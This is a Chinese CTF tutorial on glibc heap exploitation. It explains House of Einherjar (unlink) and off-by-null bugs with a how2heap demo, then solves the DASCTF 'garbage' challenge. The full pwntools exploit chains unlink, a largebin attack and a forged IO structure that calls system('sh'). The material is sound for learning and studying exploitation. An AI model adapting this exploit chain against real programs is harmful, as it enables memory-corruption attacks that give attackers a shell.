




# PWN - House of einherjar (unlink) x off by one (null) - 先知社区

PWN - House of einherjar (unlink) x off by one (null)

- - -

# House of einherjar (unlink) x off by one (null)

## 一、House of einherjar（unlink）

## 利用原理

House of einherjar 利用的是 unlink 技巧，先让我们分析一下源码：

### 向前合并

```bash
/* consolidate forward */
if (!nextinuse) {
    unlink(av, nextchunk, bck, fwd);
    size += nextsize;
} else
    clear_inuse_bit_at_offset(nextchunk, 0);
```

#### 具体合并流程

让 nextchunk 进入 unlink 流程  
给 size 加上 nextsize（同理也是表示大小上两个 chunk 已经合并了）

#### 检查

当一个 chunk 被 free 时去检查其**物理相邻后**一个 chunk（next chunk）的 `prev_inuse` 位，若为 0 则证明此块已被 free，若不是则将其 `prev_inuse` 位清 0，执行 free 操作之后返回。接下来要检查下一个 chunk 是不是 `top chunk` 若是则和前一块合并，若不是则进入向前合并的流程。

### 向后合并

```bash
/* consolidate backward */
if (!prev_inuse(p)) {
    prevsize = p->prev_size;
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    unlink(av, p, bck, fwd);
}
```

先检查当前堆块的 prev\_inuse 位是否清零，若是则进入向后合并的流程

先把前一个堆块的位置找到即 p-p->prev\_inuse

修改 P -> size 为 P -> size + FD -> size(以此来表示 size 大小上已经合并)

让 FD 进入 unlink 函数

### unlink 操作

我们使用 how2heap 中的 House of einherjar 来进行演示

demo 如下：

```bash
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>

int main()
{
    /*
     * This modification to The House of Enherjar, made by Huascar Tejeda - @htejeda, works with the tcache-option enabled on glibc-2.31.
     * The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc().
     * It has the additional requirement of a heap leak. 
     * 
     * After filling the tcache list to bypass the restriction of consolidating with a fake chunk,
     * we target the unsorted bin (instead of the small bin) by creating the fake chunk in the heap.
     * The following restriction for normal bins won't allow us to create chunks bigger than the memory
     * allocated from the system in this arena:
     *
     * https://sourceware.org/git/?p=glibc.git;a=commit;f=malloc/malloc.c;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c */

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("Welcome to House of Einherjar 2!\n");
    printf("Tested on Ubuntu 20.04 64bit (glibc-2.31).\n");
    printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

    printf("This file demonstrates a tcache poisoning attack by tricking malloc into\n"
           "returning a pointer to an arbitrary location (in this case, the stack).\n");

    // prepare the target
    intptr_t stack_var[4];
    printf("\nThe address we want malloc() to return is %p.\n", (char *) &stack_var);

    printf("\nWe allocate 0x38 bytes for 'a' and use it to create a fake chunk\n");
    intptr_t *a = malloc(0x38);

    // create a fake chunk
    printf("\nWe create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");

    a[0] = 0;    // prev_size (Not Used)
    a[1] = 0x60; // size
    a[2] = (size_t) a; // fwd
    a[3] = (size_t) a; // bck

    printf("Our fake chunk at %p looks like:\n", a);
    printf("prev_size (not used): %#lx\n", a[0]);
    printf("size: %#lx\n", a[1]);
    printf("fwd: %#lx\n", a[2]);
    printf("bck: %#lx\n", a[3]);

    printf("\nWe allocate 0x28 bytes for 'b'.\n"
           "This chunk will be used to overflow 'b' with a single null byte into the metadata of 'c'\n"
           "After this chunk is overlapped, it can be freed and used to launch a tcache poisoning attack.\n");
    uint8_t *b = (uint8_t *) malloc(0x28);
    printf("b: %p\n", b);

    int real_b_size = malloc_usable_size(b);
    printf("Since we want to overflow 'b', we need the 'real' size of 'b' after rounding: %#x\n", real_b_size);

    /* In this case it is easier if the chunk size attribute has a least significant byte with
     * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
     * the chunk includes the amount requested plus some amount required for the metadata. */
    printf("\nWe allocate 0xf8 bytes for 'c'.\n");
    uint8_t *c = (uint8_t *) malloc(0xf8);

    printf("c: %p\n", c);

    uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    // This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit

    printf("\nc.size: %#lx\n", *c_size_ptr);
    printf("c.size is: (0x100) | prev_inuse = 0x101\n");

    printf("We overflow 'b' with a single null byte into the metadata of 'c'\n");
    b[real_b_size] = 0;
    printf("c.size: %#lx\n", *c_size_ptr);

    printf("It is easier if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");

    // Write a fake prev_size to the end of b
    printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);

    // Now we fill the tcache before we free chunk 'c' to consolidate with our fake chunk
    printf("\nFill tcache.\n");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        x[i] = malloc(0xf8);
    }

    printf("Fill up tcache list.\n");
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        free(x[i]);
    }

    printf("Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set\n");
    free(c);
    printf("Our fake chunk size is now %#lx (c.size + fake_prev_size)\n", a[1]);

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    intptr_t *d = malloc(0x158);
    printf("Next malloc(0x158) is at %p\n", d);

    // tcache poisoning
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
           "We have to create and free one more chunk for padding before fd pointer hijacking.\n");
    uint8_t *pad = malloc(0x28);
    free(pad);

    printf("\nNow we free chunk 'b' to launch a tcache poisoning attack\n");
    free(b);
    printf("Now the tcache list has [ %p -> %p ].\n", b, pad);

    printf("We overwrite b's fwd pointer using chunk 'd'\n");
    d[0x30 / 8] = (long) stack_var;

    // take target out
    printf("Now we can cash out the target chunk.\n");
    malloc(0x28);
    intptr_t *e = malloc(0x28);
    printf("\nThe new chunk is at %p\n", e);

    // sanity check
    assert(e == stack_var);
    printf("Got control on target/stack!\n\n");
}
```

首先定义了一个栈地址，然后申请了一个 0x38 大小的堆块 `chunk a`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230818-1f4146e6-9380-1.png)

```bash
intptr_t stack_var[4];
    intptr_t *a = malloc(0x38);
```

接下来我们在 `chunk a` 内伪造一个 `fake free chunk` ，这个 chunk 的 `prev_inuse` 位为 0， `fd` 和 `bk` 指针都改为 `chunk a`的地址

```bash
a[0] = 0;    // prev_size (Not Used)
a[1] = 0x60; // size
a[2] = (size_t) a; // fwd
a[3] = (size_t) a; // bck
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230824-2316e5f0-9380-1.png)

新 malloc 了两个堆块，`chunk b` 大小 0x30，`chunk c` 大小 0x100

```bash
uint8_t *b = (uint8_t *) malloc(0x28);

    int real_b_size = malloc_usable_size(b);

    uint8_t *c = (uint8_t *) malloc(0xf8);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230842-2dc9a6d6-9380-1.png)

把 `chunk c` 的 size 域的 `prev_inuse` 位改为 0。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230848-3152dd0e-9380-1.png)

```bash
uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    b[real_b_size] = 0;
```

由于 unlink 存在保护，所以需要计算 `fake_freechunk` 的大小

检查机制的源码如下：

```bash
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致 (size 检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) \
malloc_printerr ("corrupted size vs. prev_size");
// 检查 fd 和 bk 指针 (双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) \
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

demo 中的计算如下

```bash
printf("\nWe write a fake prev_size to the last %lu bytes of 'b' so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("Our fake prev_size will be %p - %p = %#lx\n", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // Change the fake chunk's size to reflect c's new prev_size
    printf("\nMake sure that our fake chunk's size is equal to c's new prev_size.\n");
    a[1] = fake_size;

    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", a[1]);
```

当然，计算出的结果还是之前填入的 0x60（wu

由于 unlink 需要在 `unsorted bin` 中进行所以需要先填满 `tcache bin` (2.23 可以不用)

随后 free c

此时便触发了向后合并， `fake_chunk` 被放入了 `unsorted bin` 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230904-3ab0436e-9380-1.png)

此时 malloc 一个对应大小的 chunk 就能拿到这个 `fake chunk` (并且也实现了另一种意义上的 UAF)，命名为 `chunk d`

```bash
intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        x[i] = malloc(0xf8);
    }

    printf("Fill up tcache list.\n");
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        free(x[i]);
    }

    free(c);
    intptr_t *d = malloc(0x158);
```

接下来我们进行一次 fd 攻击，先 free 一个 0x28 大小的 chunk，然后再将 `chunk b` free 掉，此时通过 `chunk d` 我们就可以对 `chunk b` 进行 tcache bin attack。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230917-428bbe7e-9380-1.png)

改 fd 为任意地址（demo 中为栈地址）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230923-460b9c36-9380-1.png)

再申请两次 chunk，我们就可以拿到一块任意地址的 chunk，也就是可以控制任意地址了

### 手法总结

House Of Einherjar 是通过利用堆本身存在的溢出漏洞，通过修改、构造堆块的结构欺骗程序来实现让 malloc 分配几乎任意一个地址的 chunk。从而实现任意地址控制的攻击方式。

## 利用条件

堆溢出

## 利用效果

任意地址分配控制

## 二、off by one(null)

（1）off-by-one 是一种特殊的溢出漏洞，off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。这种漏洞的产生往往与边界验证不严和字符串操作有关，也不排除写入的 size 正好就只多了一个字节的情况。

一般认为，单字节溢出是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。

off-by-one 是可以基于各种缓冲区的，比如栈、bss 段等等，但是堆上（heap based）的 off-by-one 是比较常见的。

（2）off by null 是 off by one 的一种更特殊的形式，只溢出的单个的 `null` 字节，即 '\\x00' 。由于 `prev_inuse` 位的特殊性，off by null 常用于在堆溢出题中构造 `unlink` 进行攻击

## 例题：DASCTF X 0psu3 十一月挑战赛 garbage

一道 2.35 的 off by null & unlink

### ida

creat\_garbage

```bash
ssize_t creat_garbage()
{
  signed int num; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  void *buf; // [rsp+8h] [rbp-8h]

  puts("you can only creat 10 garbage");
  printf("pls input the idx of garbage: ");
  num = get_num();
  if ( (unsigned int)num > 9 || note[num] )
    fault();
  printf("pls input the size of garbage: ");
  v2 = get_num();
  if ( v2 <= 1039 || v2 > 2304 )
    fault();
  buf = malloc(v2);
  if ( !buf )
    fault();
  note[num] = buf;
  byte[num] = v2;
  printf("pls input the content of garbage: ");
  return read(0, buf, v2);
}
```

destroy\_garbage

```bash
_DWORD *destroy_garbage()
{
  _DWORD *result; // rax
  unsigned int num; // [rsp+Ch] [rbp-4h]

  printf("pls input the idx of garbage: ");
  num = get_num();
  if ( num > 9 || !note[num] )
    fault();
  free((void *)note[num]);
  note[num] = 0LL;
  result = byte;
  byte[num] = 0;
  return result;
}
```

show\_garbage

```bash
int show_garbage()
{
  unsigned int num; // [rsp+Ch] [rbp-4h]

  printf("pls input the idx of garbage: ");
  num = get_num();
  if ( num > 9 || !note[num] || !byte[num] )
    fault();
  printf("Content: ");
  return puts((const char *)note[num]);
}
```

edit\_garbage

```bash
__int64 edit_garbage()
{
  unsigned int num; // [rsp+Ch] [rbp-4h]

  printf("pls input the idx of garbage: ");
  num = get_num();
  if ( num > 9 || !note[num] || !byte[num] )
    fault();
  printf("pls input the new content of garbage: ");
  return vuln_read(note[num], (unsigned int)byte[num]);
}
```

### 漏洞分析

无 uaf

edit 中有个明显的 off by null

```bash
unsigned __int64 __fastcall vuln_read(__int64 a1, int a2)
{
  char buf; // [rsp+13h] [rbp-Dh] BYREF
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i < a2; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      fault();
    if ( buf == 10 )
    {
      *(_BYTE *)(i + a1) = 0;//off by null
      break;
    }
    *(_BYTE *)(a1 + i) = buf;
  }
  *(_BYTE *)(i + a1) = 0;
  return v5 - __readfsqword(0x28u);
}
```

并且此题没开 pie

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205230952-572266e4-9380-1.png)

### 思路

没开 pie 但是没有 uaf，然后堆块指针和 size 都储存在了 bss 段上

所以我们可以利用 unlink 将一个堆块放到 bss 段上劫持堆块指针数组和 size 数组，这样我们只要修改 size 的大小就可以造成堆溢出进而进行 uaf 了

由于题目的 glibc 版本是 2.35 所以我们可以考虑使用 House of apple 的调用链进行 IO 攻击 getshell

### 做题流程

主要向大家展示 unlink 过程

利用脚本：

```bash
target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)
```

首先伪造好 chunk，把 fd，bk 指针修改成我们想要控制的地方

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205231029-6d8afd6a-9380-1.png)

此时 delete(1) 就会使 chunk (1) 与 fake\_chunk 进行合并

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205231041-74456c58-9380-1.png)

再加上前面把 fakechunk 的 fd、bk 指针改成了储存堆块指针的 bss 段地址，此时再 edit(0) 便可对 bss 段进行修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205231046-77504832-9380-1.png)

在更改了大小后就可以进行堆溢出了

然后就是 largebin attack 走 House of apple2 即可

关于 House of apple 的调用链这里不详细说明

想了解详细可以看笔者之前写的文章：[新型 IO 利用方法学习——House of apple2 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13092)

劫持的是 stderr 结构体

[](https://xzfile.aliyuncs.com/media/upload/picture/20231205231000-5c11aaf2-9380-1.png)

放下出题人的 exp：

```bash
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
libc = ELF('./libc.so.6')
flag = 1

if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./challenge")
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

def add(index,size,content):
    sla(b': ',b'1')
    sla(b': ',str(index).encode())
    sla(b': ',str(size).encode())
    sa(b': ',content)

def delete(index):
    sla(b': ',b'2')
    sla(b': ',str(index).encode())

def show(index):
    sla(b': ',b'3')
    sla(b': ',str(index).encode())

def edit(index,content):
    sla(b': ',b'4')
    sla(b': ',str(index).encode())
    sla(b': ',content)

target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)

add(2,0x520,b'a')
add(3,0x520,b'a')
add(4,0x508,b'a')
add(5,0x510,b'a')
add(6,0x500,b'a')

delete(3)
delete(5)
add(7,0x600,b'a')
add(3,0x520,b'a')

show(3)
ru(b'Content: ')
heap_base = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00')) - 0x1a61
leak("heap_base",heap_base)

add(5,0x510,b'a')
show(5)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x21a161

delete(7)
delete(3)
add(7,0x600,b'a')
edit(1,p32(0x2000)*10)

payload = b'\x00'*0x418 + p64(0x500) + b'\x00'*0x4f8 + p64(0x420) + b'\x00'*0x418
payload += p64(0x531)
payload += p64(0x21a110 + libc.address)*2 + p64(heap_base + 0xfe0) + p64(0x404040-0x20)
edit(2,payload)

delete(5)
add(8,0x600,b'a')

fake_io_addr = heap_base + 0x1a20

fake_IO_struct = b'  sh;\x00\x00\x00' + p64(0x521)              #rdi
fake_IO_struct = fake_IO_struct.ljust(0x74,b'\x00')
fake_IO_struct += p64(1)                             #_flag2
fake_IO_struct = fake_IO_struct.ljust(0x88,b'\x00')
fake_IO_struct += p64(heap_base + 0x200)             #_lock = a writable address
fake_IO_struct = fake_IO_struct.ljust(0xa0,b'\x00')
fake_IO_struct += p64(fake_io_addr + 0x200)          #fake_wide_data
fake_IO_struct = fake_IO_struct.ljust(0xd8,b'\x00')
fake_IO_struct += p64(libc.sym['_IO_wfile_jumps'] - 0x20)        #fake_vatable
fake_IO_struct = fake_IO_struct.ljust(0x200,b'\x00')
fake_IO_struct += b'\x00'*0xe0 + p64(fake_io_addr + 0x2e0)
fake_IO_struct += b'\x00'*0x60 + p64(libc.sym['system'])

payload = b'a'*0x500 + fake_IO_struct

edit(4,payload)
edit(1,p32(0x2000)*10)
edit(8,b'\x00'*0x608 + p64(0x100))
sla(b': ',b'1')
sla(b': ',b'9')
leak("libc.address",libc.address)
leak("system",libc.sym['system'])

sla(b': ',b'1800')

p.interactive()
```

#### 参考文章

[PWN——House Of Einherjar CTF Wiki 例题详解 - 安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/251596)

[PWN 堆利用 unlink 学习笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/541226698)

[堆溢出 off by one & off by null - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12861)
